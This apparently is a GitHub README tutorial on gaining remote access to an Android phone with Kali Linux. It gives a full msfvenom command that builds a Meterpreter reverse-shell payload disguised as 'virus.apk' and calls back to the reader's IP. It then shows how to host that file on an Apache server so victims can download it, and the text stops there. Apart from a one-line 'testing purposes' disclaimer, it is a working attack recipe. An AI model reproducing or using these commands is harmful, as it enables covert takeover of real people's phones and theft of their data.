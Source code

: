 # How to hack a smarphone with Kali Linux (complete guide)
Kali linux is an OS that is focused on pentesting and ethical hacking. It if totally free and open source. In this guide you will see how you can test to gain acces to a phone with some pentesting tools. ONLY USE THIS FOR TESTING PURPOSES. 

**More info at https://www.kali.org/**

## Creating the maliciuos file
The first thing that we need to make, is to create a malicious file with the correct parameters as for making a connection between our computer and the affected device.
#### `msfvenom -p android/meterpreter/reverse_tcp LHOST=(ENTER YOUR IP ADRESS WITHOUT THE BRACKETS) LPORT=8080  R> virus.apk`

## Two options to proceed
1) Making the virus aviable online.
2) Infecting the virus via cable.


## Option 1)Uploading the file to an apache server.
This method consists in uploading the file to a server that is hosted by the linux machine. You can make shure if it is running by entering this command.
##### `sudo service apache2 status`
**If you see as an output that it is offline, then turn it on with the following command.**
##### `sudo service apache2 start`
### Copying the files to the apache online server
Now, we need to copy the malicoius file to the apache directory, in order for making it accesible on the internet.
##### `scp virus.apk /var/www/html/`


